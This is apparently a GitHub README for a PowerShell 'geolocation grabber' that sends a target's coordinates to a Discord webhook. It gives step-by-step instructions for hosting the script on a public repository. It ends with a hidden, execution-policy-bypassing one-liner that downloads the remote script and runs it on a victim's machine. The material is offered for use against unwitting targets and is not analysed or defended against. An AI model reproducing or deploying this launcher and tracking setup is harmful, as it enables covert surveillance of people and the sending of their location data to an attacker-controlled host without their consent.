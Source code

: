# geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>click geolocationgraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>click the pen<p/>
<p>del .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  
